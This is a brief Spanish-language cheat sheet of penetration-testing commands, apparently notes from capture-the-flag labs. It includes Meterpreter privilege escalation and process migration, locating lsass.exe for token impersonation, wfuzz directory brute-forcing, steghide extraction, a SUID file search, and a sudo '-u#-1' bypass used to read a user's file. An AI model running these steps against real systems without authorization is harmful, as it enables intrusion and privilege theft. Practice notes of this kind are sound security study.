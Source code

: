 getuid = server username
sysinfo =informacion del sistema (en metaslpoit dentro de windows informacion de meterpreter x86/x64)
ps -S explorer.exe = buscar el proceso explorer.exe
migrate PID = seleccionamos el proceso de explorer
getsystem = para elevar privilegios
net localgroup administrators = consultar usuario del grupo administradores
ps -S lsass.exe = localizar pid de proceso de autenticacion del sistema
getprivs = podemos ver los privilegios del usuario en orden de realizar una suplantacion de tokens
dir C:\\ flag /s = buscamos de forma recursiva en todo C: por el archivo flag


wfuzz -u http://IP/direcotorios/FUZZ.extension -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -c --hc 404
steghide extract --sf archivo.jpg
file para ver de que tipo es un archivo


find / -perm -u=s -type f 2>/dev/null
exiftool para ver metadatos de una imagen
strings nos trae los datos del archivo
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
